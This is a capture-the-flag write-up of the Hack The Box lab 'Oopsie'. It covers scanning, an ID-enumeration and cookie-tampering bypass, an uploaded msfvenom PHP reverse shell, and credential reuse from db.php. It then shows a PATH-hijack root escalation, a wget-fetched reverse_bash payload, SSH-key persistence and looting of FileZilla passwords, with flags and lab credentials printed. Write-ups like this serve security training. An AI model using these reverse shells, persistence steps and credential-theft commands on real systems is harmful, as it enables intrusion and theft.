



HTB - Oopsie

1. `nmap -T4 -p- -A 10.10.10.28`
	```
	kali@kali:~$ nmap -T4 -p- -A 10.10.10.28
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 23:33 EDT
	Warning: 10.10.10.28 giving up on port because retransmission cap hit (6).
	Nmap scan report for 10.10.10.28
	Host is up (0.099s latency).
	Not shown: 65528 closed ports
	PORT      STATE    SERVICE        VERSION
	22/tcp    open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
	|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
	|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
	80/tcp    open     http           Apache httpd 2.4.29 ((Ubuntu))
	|_http-title: Welcome
	2736/tcp  filtered radwiz-nms-srv
	4453/tcp  filtered nssalertmgr
	22626/tcp filtered unknown
	46331/tcp filtered unknown
	58456/tcp filtered unknown
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 899.69 seconds
	```
2. Nessus scan for fun
	Start with `sudo /etc/init.d/nessusd start` and go to `https://kali:8834`
3. Enumerate HTTP
	* Ran `nikto -h http://10.10.10.28`
		```
		- Nikto v2.1.6
		---------------------------------------------------------------------------
		+ Target IP:          10.10.10.28
		+ Target Hostname:    10.10.10.28
		+ Target Port:        80
		+ Start Time:         2020-05-03 23:20:35 (GMT-4)
		---------------------------------------------------------------------------
		+ Server: Apache/2.4.29 (Ubuntu)
		+ The anti-clickjacking X-Frame-Options header is not present.
		+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
		+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
		+ No CGI Directories found (use '-C all' to force check all possible dirs)
		+ IP address found in the 'location' header. The IP is "127.0.1.1".
		+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
		+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
		+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
		+ OSVDB-10944: : CGI Directory found
		+ OSVDB-10944: /cdn-cgi/login/: CGI Directory found
		+ OSVDB-3233: /icons/README: Apache default file found.
		+ 10294 requests: 0 error(s) and 10 item(s) reported on remote host
		+ End Time:           2020-05-03 23:49:53 (GMT-4) (1758 seconds)
		---------------------------------------------------------------------------
		+ 1 host(s) tested
		```
	* **Potential Exploit:** CVE-2019-0211:
		* https://www.cvedetails.com/cve/CVE-2019-0211/
		* https://www.tenable.com/blog/cve-2019-0211-proof-of-concept-for-apache-root-privilege-escalation-vulnerability-published
		* https://github.com/cfreal/exploits/tree/master/CVE-2019-0211-apache
		* https://cfreal.github.io/carpe-diem-cve-2019-0211-apache-local-root.html
	* Ran `dirbuster` with `http://10.10.10.28:80`, wordlist `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`
4. Dirbuster found login page at `http://10.10.10.28/cdn-cgi/login/admin.php`.
	
	
	```
	DirBuster 1.0-RC1 - Report
	http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project
	Report produced on Sun May 03 23:35:19 EDT 2020
	--------------------------------
	
	http://10.10.10.28:80
	--------------------------------
	Directories found during testing:
	
	Dirs found with a 200 response:
	
	/
	/cdn-cgi/login/
	
	Dirs found with a 403 response:
	
	/images/
	/icons/
	/themes/
	/uploads/
	/cdn-cgi/
	/js/
	/css/
	/icons/small/
	/fonts/
	
	
	--------------------------------
	Files found during testing:
	
	Files found with a 200 responce:
	
	/index.php
	/js/min.js
	/cdn-cgi/login/script.js
	/js/index.js
	/cdn-cgi/login/index.php
	/js/prefixfree.min.js
	/cdn-cgi/login/db.php
	
	Files found with a 302 responce:
	
	/cdn-cgi/login/admin.php
	
	
	--------------------------------
	```
5. Credentials of `admin:MEGACORP_4dm1n!!` successfully signin.
6. Analysis with Burp Suite:
	* When going to accounts page:
		```
		GET /cdn-cgi/login/admin.php?content=accounts&id=1 HTTP/1.1
		Host: 10.10.10.28
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
		Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Referer: http://10.10.10.28/cdn-cgi/login/admin.php?content=branding&brandId=10
		Connection: close
		Cookie: user=34322; role=admin
		Upgrade-Insecure-Requests: 1
		```
		Result: It might be possible to brute force the id values, and display the user value for another user, such as the super admin account. We can do this using Burp's Intruder module. Click CTRL + i to sent the request to Intruder.
		
	* We press Clear to remove the pre-populated payload positions, select the Id value (1), and click Add. Next, click on the Payloads tab.
	* We can generate a sequential list of 1-100 using a simple bash loop: ```for i in `seq 1 100`; do echo $i; done```. Paste the output into the Payloads box.
	* ID 30 shows that `super admin` is `86575`
		
	* Go to `Uploads` page and change `Cookie: user=34322; role=admin` to `Cookie: user=86575; role=admin`
7. Use [msfvenom cheatsheet 1](https://netsec.ws/?p=331) to create payload:
	```
	msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.15.117 LPORT=24785 -f raw > shell.php
	cat shell.php | xclip -selection clipboard && echo '<?php ' | tr -d '\n' > shell.php && xclip -selection clipboard -o >> shell.php
	```
	Uploads directory found before by `dirbuster`: `/uploads/`. Upload the payload using the web portal.
	
	
	Open up port to listen on:
	```
	sudo msfconsole
	use exploit/multi/handler
	options
	set payload php/meterpreter_reverse_tcp
	options
	set LHOST 10.10.15.117
	set LPORT 24785
	run
	```
	
	Execute the php file: `10.10.10.28/uploads/shell.php`
	Result: Meterpreter granted
	
	```
	getuid # Server username: www-data
	cd /home/robert
	cat user.txt
	```
	**User Flag:** `f2c74ee8db7983851ab2a96a44eb7981`

8. Lateral Movement
	The website records are probably retrieved from a database, so it's a good idea to check for database connection information. Indeed, `db.php` does contain credentials, and we can `su robert` to move laterally.
	```
	cd /var/www/html/cdn-cgi/login
	ls -la
	cat db.php
	```
	
	Result:
	```
	<?php
	$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
	?>
	```
	
	**Robert Password:** `M3g4C0rpUs3r!`
	
	Switch users:
	```
	meterpreter > shell
	Process 5906 created.
	Channel 15 created.
	SHELL=/bin/bash script -q /dev/null
	www-data@oopsie:/var/www/html/cdn-cgi/login$ su robert
	su robert
	Password: M3g4C0rpUs3r!

	```

9. Privilege Escalation
	* Attempt automatic Privilege Escalation
		```
		background
		use post/multi/recon/local_exploit_suggester
		options
		set SESSION 1
		run
		```
		Result: No suggestions found
		```
		[*] 10.10.10.28 - Collecting local exploits for php/linux...
		[-] 10.10.10.28 - No suggestions available.
		[*] Post module execution completed
		```
	* Run `id` as `robert`: `uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)` reveals he is part of `bugtracker`
	* We can enumerate the filesystem to see if this group has any special access: `find / -type f -group bugtracker 2>/dev/null`
		```
		-rwsr-xr-- 1 root bugtracker 8792 Jan 25 10:14 /usr/bin/bugtracker
		```
	* Run `/usr/bin/bugtracker`
		```
		robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker                                                
		/usr/bin/bugtracker
		
		------------------
		: EV Bug Tracker :
		------------------
		
		Provide Bug ID: 1
		1
		---------------
		
		Binary package hint: ev-engine-lib
		
		Version: 3.3.3-1
		
		Reproduce:
		When loading library in firmware it seems to be crashed
		
		What you expected to happen:
		Synchronized browsing to be enabled since it is enabled for that site.
		
		What happened instead:
		Synchronized browsing is disabled. Even choosing VIEW > SYNCHRONIZED BROWSING from menu does not stay enabled between connects.
		
		robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
		/usr/bin/bugtracker
		
		------------------
		: EV Bug Tracker :
		------------------
		
		Provide Bug ID: 2
		2
		---------------
		
		If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.
		
		ProblemType: Bug
		DistroRelease: Ubuntu 16.10
		Package: filezilla 3.15.0.2-1ubuntu1
		Uname: Linux 4.5.0-040500rc7-generic x86_64
		ApportVersion: 2.20.1-0ubuntu3
		Architecture: amd64
		CurrentDesktop: Unity
		Date: Sat May 7 16:58:57 2016
		EcryptfsInUse: Yes
		SourcePackage: filezilla
		UpgradeStatus: No upgrade log present (probably fresh install)
		
		robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
		/usr/bin/bugtracker
		
		------------------
		: EV Bug Tracker :
		------------------
		
		Provide Bug ID: 3
		3
		---------------
		
		Hello,
		
		When transferring files from an FTP server (TLS or not) to an SMB share, Filezilla keeps freezing which leads down to very much slower transfers ...
		
		Looking at resources usage, the gvfs-smb process works hard (60% cpu usage on my I7)
		
		I don't have such an issue or any slowdown when using other apps over the same SMB shares.
		
		ProblemType: Bug
		DistroRelease: Ubuntu 12.04
		Package: filezilla 3.5.3-1ubuntu2
		ProcVersionSignature: Ubuntu 3.2.0-25.40-generic 3.2.18
		Uname: Linux 3.2.0-25-generic x86_64
		NonfreeKernelModules: nvidia
		ApportVersion: 2.0.1-0ubuntu8
		Architecture: amd64
		Date: Sun Jul 1 19:06:31 2012
		EcryptfsInUse: Yes
		InstallationMedia: Ubuntu 12.04 LTS "Precise Pangolin" - Alpha amd64 (20120316)
		ProcEnviron:
		 TERM=xterm
		 PATH=(custom, user)
		 LANG=fr_FR.UTF-8
		 SHELL=/bin/bash
		SourcePackage: filezilla
		UpgradeStatus: No upgrade log present (probably fresh install)
		---
		ApportVersion: 2.13.3-0ubuntu1
		Architecture: amd64
		DistroRelease: Ubuntu 14.04
		EcryptfsInUse: Yes
		InstallationDate: Installed on 2013-02-23 (395 days ago)
		InstallationMedia: Ubuntu 12.10 "Quantal Quetzal" - Release amd64 (20121017.5)
		Package: gvfs
		PackageArchitecture: amd64
		ProcEnviron:
		 LANGUAGE=fr_FR
		 TERM=xterm
		 PATH=(custom, no user)
		 LANG=fr_FR.UTF-8
		 SHELL=/bin/bash
		ProcVersionSignature: Ubuntu 3.13.0-19.40-generic 3.13.6
		Tags: trusty
		Uname: Linux 3.13.0-19-generic x86_64
		UpgradeStatus: Upgraded to trusty on 2014-03-25 (0 days ago)
		UserGroups:
		
		robert@oopsie:/var/www/html/cdn-cgi/login$ /usr/bin/bugtracker
		/usr/bin/bugtracker
		
		------------------
		: EV Bug Tracker :
		------------------
		
		Provide Bug ID: 4
		4
		---------------
		
		cat: /root/reports/4: No such file or directory
		```
	* Try `strings /usr/bin/bugtracker`
		```
		------------------
		: EV Bug Tracker :
		------------------
		Provide Bug ID: 
		---------------
		cat /root/reports/
		;*3$"
		GCC: (Ubuntu 7.4.0-1ubuntu1~18.04.1) 7.4.0
		```
		Results: We see that it calls the cat binary using this relative path instead of the absolute path. By creating a malicious cat, and modifying the path to include the current working directory, we should be able to abuse this misconfiguration, and escalate our privileges to root.
		
	* Let's add the current working directory to PATH, create the malicious binary and make it executable.
		```
		export PATH=/tmp:$PATH
		cd /tmp/
		echo '/bin/bash' > cat
		chmod +x cat
		```
		The relative `cat` command is now `/bin/bash`
		
	* Run `/usr/bin/bugtracker` and gain root.
		* `/bin/cat root.txt`
		* **Root Flag:** `af13b0bee69f8a877c3faf667f7beacf`

10. Post Exploitation
	1. Create exploit to run as root; `msfvenom -p cmd/unix/reverse_bash LHOST=10.10.15.117 LPORT=34847 -f raw > shell.sh`
	2. Host the new exploit for downloading: `sudo python3 -m http.server 80`
	3. Download exploit onto target: `wget 10.10.15.117/shell.sh`
	4. Open up port to listen on:
		```
		use exploit/multi/handler
		set payload cmd/unix/reverse_bash
		options
		set LHOST 10.10.15.117
		set LPORT 34847
		run
		```
	5. Run `./shell.sh` as root
	6. Upgrade to meterpreter
		```
		use post/multi/manage/shell_to_meterpreter
		set session 1
		run
		```
	7. Allow access in at any time with SSH
		```
		use post/linux/manage/sshkey_persistence
		set session 2
		run
		```
		And then in normal attacker prompt:
		
		```
		sudo chmod 400 /root/.msf4/loot/20200504015710_default_10.10.10.28_id_rsa_480866.txt
		sudo ssh -o "IdentitiesOnly=yes" -i /root/.msf4/loot/20200504015710_default_10.10.10.28_id_rsa_480866.txt root@10.10.10.28
		```
	8. Find loot
		```
		root@oopsie:~/.config/filezilla# cat /root/.config/filezilla/filezilla.xml 
		<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
		<FileZilla3>
		    <RecentServers>
		        <Server>
		            <Host>10.10.10.44</Host>
		            <Port>21</Port>
		            <Protocol>0</Protocol>
		            <Type>0</Type>
		            <User>ftpuser</User>
		            <Pass>mc@F1l3ZilL4</Pass>
		            <Logontype>1</Logontype>
		            <TimezoneOffset>0</TimezoneOffset>
		            <PasvMode>MODE_DEFAULT</PasvMode>
		            <MaximumMultipleConnections>0</MaximumMultipleConnections>
		            <EncodingType>Auto</EncodingType>
		            <BypassProxy>0</BypassProxy>
		        </Server>
		    </RecentServers>
		</FileZilla3>
		```


